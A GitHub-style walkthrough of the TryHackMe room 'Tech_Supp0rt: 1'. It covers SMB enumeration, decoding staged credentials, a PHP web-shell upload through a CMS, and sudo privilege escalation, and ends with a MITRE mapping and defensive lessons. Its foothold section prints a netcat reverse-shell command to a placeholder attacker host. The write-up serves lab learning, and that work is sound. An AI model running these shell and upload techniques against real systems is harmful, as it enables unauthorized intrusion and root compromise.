







<div align="center">

```
████████╗███████╗ ██████╗██╗  ██╗    ███████╗██╗   ██╗██████╗ ██████╗  ██████╗ ██████╗ ████████╗
╚══██╔══╝██╔════╝██╔════╝██║  ██║    ██╔════╝██║   ██║██╔══██╗██╔══██╗██╔═████╗██╔══██╗╚══██╔══╝
   ██║   █████╗  ██║     ███████║    ███████╗██║   ██║██████╔╝██████╔╝██║██╔██║██████╔╝   ██║
   ██║   ██╔══╝  ██║     ██╔══██║    ╚════██║██║   ██║██╔═══╝ ██╔═══╝ ████╔╝██║██╔══██╗   ██║
   ██║   ███████╗╚██████╗██║  ██║    ███████║╚██████╔╝██║     ██║     ╚██████╔╝██║  ██║   ██║
   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝    ╚══════╝ ╚═════╝ ╚═╝     ╚═╝      ╚═════╝ ╚═╝  ╚═╝   ╚═╝
```

### `Tech_Supp0rt: 1` — TryHackMe Room Writeup

*Hack into the scammer's under-development website to foil their plans.*

[](https://tryhackme.com/room/techsupp0rt1)
[](#)
[](#)
[](#)

</div>

---

## `0x00` Overview

| Field | Detail |
|---|---|
| **Room** | Tech_Supp0rt: 1 |
| **Platform** | TryHackMe |
| **Scenario** | Compromise a scammer's in-development website to disrupt an active tech-support scam operation |
| **Attack Surface** | SMB file shares, encoded credentials, CMS file-upload functionality |
| **Objective** | Enumerate exposed shares → recover and decode staged credentials → gain authenticated access to the web CMS → abuse file upload for remote code execution → escalate privileges to root |
| **Author** | Kitsana Thuekoh ([@vetementsvmnts](https://github.com/vetementsvmnts)) |

<p align="center">
  
</p>

---

## `0x01` Attack Chain


---

## `0x02` Reconnaissance

An initial `nmap` scan against the target established the exposed service footprint, surfacing SMB and a web service consistent with an under-development site.

```bash
nmap -sC -sV -p- -T4 <TARGET_IP>
```

<p align="center">
  
</p>

**Key findings:**
- SMB service exposed and reachable without authentication for share listing
- Web service consistent with the "under development" scammer site referenced in the scenario brief

---

## `0x03` SMB Enumeration

With SMB confirmed open, `smbclient` was used to enumerate available shares. Anonymous/guest access allowed listing and retrieval of files staged on the share — a common misconfiguration where operational or development files are left exposed before a site goes live.

```bash
smbclient -L //<TARGET_IP>/ -N
smbclient //<TARGET_IP>/<SHARE_NAME> -N
```

<p align="center">
  
</p>

Files of interest were pulled down from the share using `get`, revealing artifacts left behind during the site's development — including what appeared to be encoded credential material.

```bash
smb: \> get <file>
```

<p align="center">
  
</p>

---

## `0x04` Credential Recovery — CyberChef Decoding

The retrieved file contained data that was not stored in plaintext. Rather than guessing at an encoding scheme blind, the content was run through **CyberChef's Magic wand** / manual recipe construction to identify and reverse the transformation (commonly Base64 in this room), recovering usable CMS credentials.

<p align="center">
  
</p>

> **Takeaway:** Encoding is not encryption. Files staged on a network share "for later" are a recurring source of credential leakage in real engagements, not just CTF scenarios.

---

## `0x05` Initial Access — CMS File Upload

The recovered credentials granted authenticated access to the site's CMS backend. The CMS exposed a file-upload feature intended for legitimate content management, but lacking sufficient server-side validation on uploaded file types/extensions — a classic **unrestricted file upload** vulnerability (OWASP Top 10 – A03/A05 depending on framing).

A PHP web shell was crafted and uploaded through this functionality, then invoked directly via its predictable/served upload path to achieve code execution on the host.

<p align="center">
  
</p>

---

## `0x06` Foothold — Netcat Reverse Shell

With code execution confirmed through the uploaded payload, a reverse shell was catch with `netcat` to obtain an interactive foothold on the target.

```bash
# Listener
nc -lvnp <PORT>

# Triggered via uploaded payload / URL parameter
nc <ATTACKER_IP> <PORT> -e /bin/bash
```

<p align="center">
  
</p>

Shell stabilization was performed to move from a raw netcat listener to a fully interactive TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl+Z
stty raw -echo; fg
```

---

## `0x07` Privilege Escalation — Sudo Misconfiguration

Local enumeration of the compromised account's privileges was performed with:

```bash
sudo -l
```

This revealed a sudo misconfiguration — a binary or command permitted to run as root without restriction, exploitable via [GTFOBins](https://gtfobins.github.io/)-style shell breakout to obtain a root shell.

<p align="center">
  
</p>

```bash
sudo <binary> 
# Breakout technique per GTFOBins entry for the identified binary
```

**Result:** Full root compromise of the target host.

---

## `0x08` MITRE ATT&CK Mapping

| Tactic | Technique | ID |
|---|---|---|
| Reconnaissance | Active Scanning | T1595 |
| Discovery | Network Share Discovery | T1135 |
| Credential Access | Unsecured Credentials (Files) | T1552.001 |
| Initial Access | Exploit Public-Facing Application | T1190 |
| Execution | Unix Shell | T1059.004 |
| Command & Control | Ingress Tool Transfer / Reverse Shell | T1105 |
| Privilege Escalation | Abuse Elevation Control Mechanism (Sudo) | T1548.003 |

---

## `0x09` Lessons Learned

- **Share hygiene matters.** Anonymous SMB access to shares containing "leftover" development files is a low-effort, high-yield attack path — patch this with authentication requirements and regular share audits.
- **Encoding ≠ security.** Base64 or similar encodings staged on a share do nothing to stop an attacker with local file access.
- **Validate uploads server-side.** File extension allow-listing, MIME-type verification, and disabling script execution in upload directories would have blocked the web shell entirely.
- **Audit `sudo -l` regularly.** Overly permissive sudo rules are one of the most common real-world privilege escalation vectors and are trivially checked for.

---

<div align="center">

`root@target:~#` **Room completed — 100%**

*Writeup by [Kitsana Thuekoh](https://github.com/vetementsvmnts) · Offensive Security Portfolio*

</div>
